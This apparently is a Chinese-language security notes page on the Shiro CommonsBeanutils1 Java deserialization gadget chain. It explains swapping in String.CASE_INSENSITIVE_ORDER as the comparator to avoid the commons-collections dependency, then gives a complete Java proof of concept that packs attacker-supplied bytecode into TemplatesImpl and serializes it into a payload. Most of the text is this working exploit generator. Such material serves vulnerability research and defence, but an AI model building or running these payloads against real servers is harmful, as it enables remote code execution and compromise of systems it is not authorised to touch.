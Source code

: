 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221207113456298.png)

而这个类来自commons.collections，所以要避开使用这个缺省参数。也就是要找到一个类有comparator接口和serializable接口

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221207113534550.png)

`CaseInsensitiveComparator`不仅实现了上面两个接口，还在java.lang.String下。而且用getOutputProperties的方式调用是不需要用到恶意comparator的，只需要恶意property

所以修改Beancomparator初始化时的参数为CaseInsensitiveComparator的对象就行了：

`final BeanComparator comparator = new BeanComparator(null,String.CASE_INSENSITIVE_ORDER);`



POC：

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
public class ShiroCommonsBeanutils1 {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
}
public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,comparator);
// stub data for replacement later
        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
// ==================
// 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        return barr.toByteArray();
        }
}
```
